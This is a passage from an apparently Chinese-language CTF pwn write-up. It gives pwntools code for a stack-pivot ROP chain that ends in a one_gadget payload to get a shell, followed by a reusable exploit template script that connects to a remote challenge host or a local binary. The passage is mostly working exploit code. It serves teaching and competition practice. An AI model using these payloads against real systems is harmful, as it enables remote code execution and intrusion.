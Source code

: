 重复刚才的 1、2 的步骤

```bash
pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)
```

将 og 送入，从而 getshell

```bash
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)
```

og 的模板 exp:

```bash
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node.yuzhian.com.cn',30686)
else:
    p = process(name)

elf = ELF(name)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

```